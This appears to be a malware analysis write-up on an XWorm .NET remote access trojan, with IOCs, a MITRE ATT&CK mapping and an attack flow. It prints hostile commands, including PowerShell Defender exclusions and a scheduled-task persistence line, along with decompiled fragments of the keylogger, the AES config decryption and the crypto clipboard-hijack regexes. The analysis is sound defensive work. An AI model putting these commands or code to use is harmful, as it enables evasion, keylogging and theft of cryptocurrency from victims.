





### <span style="color:lightblue">TL;DR</span>
A .NET XWorm RAT detected by Capa rules. It drops a copy of itself as
`WmiPrvSE.exe` to masquerade as a legitimate Windows process, establishes
triple persistence via scheduled task, startup folder shortcut, and registry
Run key, bypasses Windows Defender via exclusion rules, implements a
low-level keylogger via `SetWindowsHookEx`, hijacks clipboard content
targeting Bitcoin and Ethereum wallet addresses, and communicates with
three C2 servers over TCP using AES-ECB encrypted payloads.

### <span style="color:red">Initial Analysis</span>
```
xworm.exe: PE32 executable (GUI) Intel i386 Mono/.Net assembly, 3 sections
SHA256: ced525930c76834184b4e194077c8c4e7342b3323544365b714943519a0f92af
MD5:    7c7aff561f11d16a6ec8a999a2b8cdad
```

The binary was identified as `XWorm Payload` by a Capa rule.



### <span style="color:red">Sandbox Analysis</span>
Seconds after execution the sample dropped a copy of itself as
`WmiPrvSE.exe` in `%APPDATA%` — impersonating the legitimate
WMI Provider Host process to blend in with normal system activity.


An encrypted configuration file `xworm.exe.config` was created in `%TEMP%`:



The decrypted configuration revealed:
```
C2 Servers: 185.117.250.169, 66.175.239.149, 185.117.249.43
Port:       7000
Key:        8xTJ0EKPuiQsJVaT
USB copy:   USB.exe
```


The config also contained hardcoded cryptocurrency wallet addresses used
for clipboard hijacking:
```
Bitcoin:  bc1q2a4jgxmvslng5khwvzkt9pechms20ghff42s5g
Ethereum: 0x10cE3E5678f40f0B94A2fB5003f04012ecA407C5
```


### <span style="color:red">Persistence</span>

#### <span style="color:red">Scheduled Task</span>
Created a scheduled task `WmiPrvSE` that executes the dropped binary
every minute with highest privileges:
```
schtasks.exe /create /f /RL HIGHEST /sc minute /mo 1
             /tn "WmiPrvSE"
             /tr "C:\Users\admin\AppData\Roaming\WmiPrvSE.exe"
```
```c#
ProcessStartInfo processStartInfo = new ProcessStartInfo("schtasks.exe");
processStartInfo.Arguments = string.Concat(new string[]
{
    "/create /f /RL HIGHEST /sc minute /mo 1 /tn \"",
    Path.GetFileNameWithoutExtension(NB2mi1VBTSN5U40DfEsDcrzgxWCrxt7i1yCoMW0Zb5dK9QwIjZ6W6wYeHriq.EB5J4sIzfH74BwfgRjacCtnEuNWFxu93z57nr4HrttTW5asXOhadv7pC7YFu),
    "\" /tr \"", text, "\""
});
Process process = Process.Start(processStartInfo);
```

#### <span style="color:red">Startup Folder</span>
Created a `.lnk` shortcut in the Windows Startup folder to ensure
execution on every user login:
```
C:\Users\%User%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```



#### <span style="color:red">Run Registry Key</span>
Set a registry Run key to execute `WmiPrvSE.exe` on user login:
```
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WmiPrvSE
```


### <span style="color:red">Static Analysis</span>

#### <span style="color:red">Encryption</span>
Configuration data was encrypted using AES-ECB mode. The key was derived
by computing an MD5 hash of a hardcoded string and copying the result
twice into a 32-byte array:
```c#
RijndaelManaged rijndaelManaged = new RijndaelManaged();
MD5CryptoServiceProvider md5CryptoServiceProvider = new MD5CryptoServiceProvider();
byte[] array = new byte[32];
byte[] sourceArray = md5CryptoServiceProvider.ComputeHash(ACX0qTJzEzq40qP5qFxb.wVkaAAeCf6BeWi8Flwtq(NB2mi1VBTSN5U40DfEsDcrzgxWCrxt7i1yCoMW0Zb5dK9QwIjZ6W6wYeHriq.DhMybcleyUJ8bZbaqtAkL3FTz6SQ840xELBsFWt9yekNCVYQ1WgRtjL1bTF3));
Array.Copy(sourceArray, 0, array, 0, 16);
Array.Copy(sourceArray, 0, array, 15, 16);
rijndaelManaged.Key = array;
rijndaelManaged.Mode = CipherMode.ECB;
ICryptoTransform cryptoTransform = rijndaelManaged.CreateDecryptor();
byte[] array2 = Convert.FromBase64String(3pXqYfeWgCBZOAYUjYnh);
return ACX0qTJzEzq40qP5qFxb.sJljw7gGxcYB8jRe1fPv(cryptoTransform.TransformFinalBlock(array2, 0, array2.Length));
```


#### <span style="color:red">Windows Defender Bypass</span>
Added exclusions for both the file path and process name to prevent
Defender from scanning or terminating the dropped binary:
```powershell
powershell -ExecutionPolicy Bypass Add-MpPreference -ExclusionPath 'C:\Users\Admin\AppData\Roaming\WmiPrvSE.exe'
powershell -ExecutionPolicy Bypass Add-MpPreference -ExclusionProcess 'WmiPrvSE.exe'
```


#### <span style="color:red">Keylogging</span>
Installed a low-level keyboard hook via `SetWindowsHookEx` to capture
all keystrokes system-wide. It renames it to `v2H7UaTp8QLeiqSYflzi3sclFElatUojEHCwvOIoXHXii3FlZocIVLQx9c8vO5vW9iL6KiRzIfUyn`. Each captured key was normalized — special
keys were mapped to readable labels — and written to a log file grouped
by active window title. U
```c#
[DllImport("user32.dll", CharSet = CharSet.Auto, EntryPoint = "SetWindowsHookEx", SetLastError = true)]
```

Key normalization from the hook callback:
```c#
if (Operators.CompareString(left, "Space", false) == 0)      obj2 = "[SPACE]";
else if (Operators.CompareString(left, "Return", false) == 0) obj2 = "[ENTER]";
else if (Operators.CompareString(left, "Escape", false) == 0) obj2 = "[ESC]";
else if (Operators.CompareString(left, "LControlKey", false) == 0) obj2 = "[CTRL]";
else if (Operators.CompareString(left, "RControlKey", false) == 0) obj2 = "[CTRL]";
else if (Operators.CompareString(left, "RShiftKey", false) == 0)   obj2 = "[Shift]";
else if (Operators.CompareString(left, "LShiftKey", false) == 0)   obj2 = "[Shift]";
else if (Operators.CompareString(left, "Back", false) == 0)   obj2 = "[Back]";
else if (Operators.CompareString(left, "LWin", false) == 0)   obj2 = "[WIN]";
else if (Operators.CompareString(left, "Tab", false) == 0)    obj2 = "[Tab]";
else if (Operators.CompareString(left, "Capital", false) == 0)
...[snip]...
```

#### <span style="color:red">Clipboard Hijacking</span>
Monitored the clipboard for content matching Bitcoin, Ethereum, and TRON
wallet address patterns using hardcoded regex. When a match was found,
the clipboard content was silently replaced with the attacker's wallet address:
```c#
public static readonly Regex S0cI7Hk6bzcFtEvd7Fqm = new Regex("\\b(bc1|[13])[a-zA-HJ-NP-Z0-9]{26,45}\\b");
public static readonly Regex KsKw6uC5CNpIU5XtEe7i = new Regex("\\b(0x)[a-zA-HJ-NP-Z0-9]{40,45}\\b");
public static readonly Regex 2AsDRG7TDiHYSfLmSTs2 = new Regex("T[A-Za-z1-9]{33}");
```

#### <span style="color:red">C2 Communication</span>
Connected to C2 servers via TCP and transmitted an `INFO` packet containing
HWID, username, OS version, and AV status — encrypted with the AES-ECB key
from the config. Data was prefixed with a length header. Periodic `PING!`
packets were sent to maintain the connection. Outbound requests used
hardcoded User-Agent strings to blend with normal browser traffic:
```c#
"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0",
"Mozilla/5.0 (iPhone; CPU iPhone OS 11_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/11.0 Mobile/15E148 Safari/604.1",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36"
```

The malware also called `RtlSetProcessIsCritical` from `ntdll.dll` to
mark itself as a critical process — causing a BSOD if terminated:
```c#
[DllImport("NTdll.dll", EntryPoint = "RtlSetProcessIsCritical", SetLastError = true)]
public static extern void H8daqEsgsEVBpFZFnlWT([MarshalAs(UnmanagedType.Bool)] bool tW8JLDDvidchK66hQUnZ, [MarshalAs(UnmanagedType.Bool)] ref bool IgYCKHiXpqcNX0SKbJFS, [MarshalAs(UnmanagedType.Bool)] bool tZzpk5hGM0iIAqJM0bgw);
```

### <span style="color:lightblue">IOCs</span>

**Files**  
\- `xworm.exe`  
\- SHA256: `ced525930c76834184b4e194077c8c4e7342b3323544365b714943519a0f92af`  
\- MD5: `7c7aff561f11d16a6ec8a999a2b8cdad`  
\- `%APPDATA%\WmiPrvSE.exe` — persistence copy  
\- `%TEMP%\xworm.exe.config` — encrypted config  

**Network**  
\- C2: `185.117.250.169:7000`  
\- C2: `66.175.239.149:7000`  
\- C2: `185.117.249.43:7000`  

**Registry**  
\- `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WmiPrvSE`  

**Scheduled Tasks**  
\- `WmiPrvSE` — executes every 1 minute with HIGHEST privileges  

**Crypto Wallets (attacker)**  
\- Bitcoin: `bc1q2a4jgxmvslng5khwvzkt9pechms20ghff42s5g`  
\- Ethereum: `0x10cE3E5678f40f0B94A2fB5003f04012ecA407C5`  

### <span style="color:lightblue">MITRE ATT&CK</span>

| Technique | ID | Description |
|-----------|-----|-------------|
| Scheduled Task/Job | T1053.005 | WmiPrvSE scheduled task every 1 minute |
| Registry Run Keys | T1547.001 | HKCU\...\Run\WmiPrvSE |
| Shortcut Modification | T1547.009 | .lnk in Startup folder |
| Masquerading | T1036.005 | Renamed to WmiPrvSE.exe |
| Disable or Modify Tools | T1562.001 | Windows Defender exclusions via PowerShell |
| Virtualization/Sandbox Evasion | T1497.001 | WMI Win32_ComputerSystem VM check |
| Input Capture: Keylogging | T1056.001 | SetWindowsHookEx low-level keyboard hook |
| Clipboard Data | T1115 | Crypto wallet address hijacking |
| Encrypted Channel | T1573 | AES-ECB encrypted C2 communication |
| Data Obfuscation | T1001 | Length-prefixed TCP packets + PING keepalive |

### <span style="color:lightblue">Attack Flow</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef input fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef check fill:#fff9c4,stroke:#fbc02d,stroke-width:2px,stroke-dasharray: 5 5,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef term fill:#e0e0e0,stroke:#333,stroke-width:2px,color:#000;

    Start([xworm.exe Executed]):::input --> Drop[Drop WmiPrvSE.exe<br/>%APPDATA%]:::exec

    subgraph Evasion [Evasion]
        Drop --> AntiVM:::check
        AntiVM -.->|VM Detected| Exit[Exit]:::term
        AntiVM -- Pass --> Defender[Disable Defender<br/>Add-MpPreference Exclusions]:::exec
        Defender --> Critical[RtlSetProcessIsCritical<br/>BSOD on Kill]:::exec
    end

    subgraph Persistence [Persistence]
        Critical --> Task[Scheduled Task<br/>WmiPrvSE every 1min]:::exec
        Critical --> Startup[Startup Folder<br/>.lnk Shortcut]:::exec
        Critical --> Registry[HKCU\\Run\\WmiPrvSE]:::exec
    end

    subgraph Collection [Collection]
        Task --> Keylog[SetWindowsHookEx<br/>Keylogger]:::exec
        Task --> Clipboard[Clipboard Hijacking<br/>BTC / ETH / TRON]:::exec
    end

    subgraph C2 [C2 Communication]
        Keylog --> C2Server[TCP AES-ECB<br/>INFO + PING]:::exec
        Clipboard --> C2Server
        C2Server --> IP1((185.117.250.169:7000)):::exec
        C2Server --> IP2((66.175.239.149:7000)):::exec
        C2Server --> IP3((185.117.249.43:7000)):::exec
    end
